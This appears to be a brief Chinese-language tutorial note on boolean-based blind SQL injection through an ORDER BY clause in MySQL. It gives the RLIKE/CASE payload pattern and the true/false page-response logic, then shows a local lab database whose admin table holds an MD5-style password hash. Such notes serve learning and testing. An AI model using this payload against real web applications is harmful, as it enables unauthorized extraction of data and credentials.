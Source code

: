 # OrderBy 注入点-布尔盲注

## 0x00 记忆方式

select * from test order by 1 RLIKE (CASE WHEN (1=1) THEN 1 ELSE 0x28 END)



当 1=1 为true时会返回1页面会保持不变

当 1=2 为false时页面会报错



这样就可以根据这个差异来判断是否正确

## 0x01 基本数据

```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)

mysql> select * from test;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)

mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```
